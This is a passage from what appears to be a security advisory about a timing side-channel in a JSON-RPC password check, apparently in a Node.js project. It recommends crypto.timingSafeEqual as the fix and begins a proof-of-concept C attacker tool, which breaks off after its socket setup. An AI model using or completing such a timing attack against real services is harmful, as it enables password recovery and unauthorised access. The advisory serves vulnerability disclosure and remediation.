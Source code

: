 For more information about how to use timing-safe comparison functions, see the discussion in thread: https://stackoverflow.com/questions/31095905/whats-the-difference-between-a-secure-compare-and-a-simple

In particular, Node.js supports the following API: https://nodejs.org/dist/latest-v6.x/docs/api/crypto.html#crypto\_crypto\_timingsafeequal\_a\_b

To fix the vulnerability, the JSON-RPC should use `crypto.timingSafeEqual()` API when comparing the two passwords.

## Proof of concept

## Proof of Concept

To get good timing measurements, we wrote an attacker tool in C. This can be compiled with the following command:

```
gcc -o attack attack.c && ./attack
```

Here is the source-code file `attack.c`:

```
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netdb.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <time.h>
#include <fcntl.h>

struct hostent *hp;
bool verbose = false;
int sock;

int init() {
    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        if (verbose) perror("socket creating error");
        return -1;
    }

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(3000);
    memcpy(&addr.sin_addr,  hp->h_addr, hp->h_length);

    if (verbose) printf("connecting\n");

    int rc = connect(sock, (const struct sockaddr *) &addr, sizeof(addr));
    if (rc != 0) {
        if (verbose) printf("failed to connect\n");
        close(sock);
        return -2;
    }

    if (verbose) printf("connected!\n");
    return 0;
}

signed long send_and_measure_inner(const char* password) {
```